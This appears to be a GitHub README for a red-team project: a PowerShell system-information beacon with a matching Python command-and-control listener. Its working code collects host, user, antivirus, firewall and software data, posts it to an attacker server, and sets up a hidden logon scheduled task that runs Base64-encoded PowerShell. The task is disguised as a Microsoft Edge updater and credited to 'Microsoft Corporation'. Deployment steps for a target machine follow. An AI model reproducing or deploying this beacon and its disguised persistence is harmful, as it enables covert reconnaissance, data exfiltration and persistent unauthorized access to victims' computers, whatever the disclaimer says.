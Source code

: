 # System Info Beacon with COM API Persistence

This project demonstrates a PowerShell-based system beacon that collects system information and persists via a hidden Scheduled Task using the COM API. The data is sent to a Command & Control (C2) server built using Python’s `http.server`.

> ⚠️ **Disclaimer**: This project is for educational and authorized red team use only. 

---

## Requirements
2 Virtual Machines(VMs) are required for this demonstration:
- One with Kali Linux/ ParrotOS or any Linux distro : To host C2 server
- One with Windows 10 : To execute the Powershell Code

## Features of Exploit

- Collects critical system metadata (hostname, IP, OS, user, AV, firewall, uptime, software list, etc.)
- Posts data to a remote HTTP server endpoint
- Creates persistent beaconing via a hidden Scheduled Task using the COM API
- Uses Base64-encoded PowerShell for stealth

---

## PowerShell Beacon Script

### One-Time System Info Beacon

```powershell
$hostname = $env:COMPUTERNAME
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.IPAddress -notlike "169.*" -and $_.PrefixOrigin -ne "WellKnown" })[0].IPAddress
$user = $env:USERNAME
$os = (Get-CimInstance Win32_OperatingSystem).Caption
$uptime = (Get-CimInstance Win32_OperatingSystem).LastBootUpTime
$av = (Get-CimInstance -Namespace "root/SecurityCenter2" -Class AntiVirusProduct | Select-Object -ExpandProperty displayName -ErrorAction SilentlyContinue) -join ", "
$firewallStatus = (Get-NetFirewallProfile | Select-Object Name, Enabled | Out-String).Trim()
$topProcesses = (Get-Process | Sort-Object CPU -Descending | Select-Object -First 5 Name, CPU | Out-String).Trim()
$software = (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object -ExpandProperty DisplayName -ErrorAction SilentlyContinue) -join ", "

$payload = @{
    Hostname  = $hostname
    IP        = $ip
    User      = $user
    OS        = $os
    Uptime    = $uptime
    AV        = $av
    Firewall  = $firewallStatus
    Processes = $topProcesses
    Software  = $software
    Time      = (Get-Date).ToString()
}

try {
    Invoke-WebRequest -Uri "http://192.168.1.193/collect" -Method POST -Body $payload -UseBasicParsing
} catch {}
```

### Beacon Script for Logon Trigger

Encapsulated in a Base64-encoded string for stealth and injected via COM API.

### COM API-Based Persistence

```powershell
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($beaconScript))

$taskName = "MicrosoftEdgeUpdaterService"
$taskDesc = "Microsoft Edge Telemetry Update"

$service = New-Object -ComObject "Schedule.Service"
$service.Connect()

$rootFolder = $service.GetFolder("\")
$taskDef = $service.NewTask(0)

$taskDef.RegistrationInfo.Description = $taskDesc
$taskDef.RegistrationInfo.Author = "Microsoft Corporation"

$trigger = $taskDef.Triggers.Create(9)
$trigger.UserId = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name

$action = $taskDef.Actions.Create(0)
$action.Path = "powershell.exe"
$action.Arguments = "-NoProfile -WindowStyle Hidden -EncodedCommand $encoded"

$taskDef.Settings.Enabled = $true
$taskDef.Settings.Hidden = $true
$taskDef.Settings.StartWhenAvailable = $true
$taskDef.Settings.DisallowStartIfOnBatteries = $false

$rootFolder.RegisterTaskDefinition($taskName, $taskDef, 6, $null, $null, 3, $null)
```

---

## Python C2 Server

Run this listener to receive and parse the beacon POSTs:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs, unquote_plus

class C2Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers.get('Content-Length', 0))
        post_data = self.rfile.read(content_length).decode()
        parsed = parse_qs(post_data)
        decoded = {k: unquote_plus(v[0]) for k, v in parsed.items()}

        print("\n[+] Beacon Data Received:")
        for key, value in decoded.items():
            print(f"{key.capitalize()}: {value}")

        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=C2Handler, port=80):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f"[+] C2 Server Running on Port {port}...")
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```

---

## Execution

![image](https://github.com/user-attachments/assets/27a80367-d323-4dc8-9705-cc839ab66859)

> Bottom half cut due to personal data(extracted by the exploit)

## Deployment

1. Host the Python server on an attacker-controlled machine:  
   ```bash
   python3 beacon_server.py
   ```
2. Execute the PowerShell beacon script on the target.
3. Beacon data will be received on the Python server.

---

## References

- Windows COM API for task scheduling
- PowerShell Remoting and System Management Cmdlets
- HTTP Beaconing Techniques

---
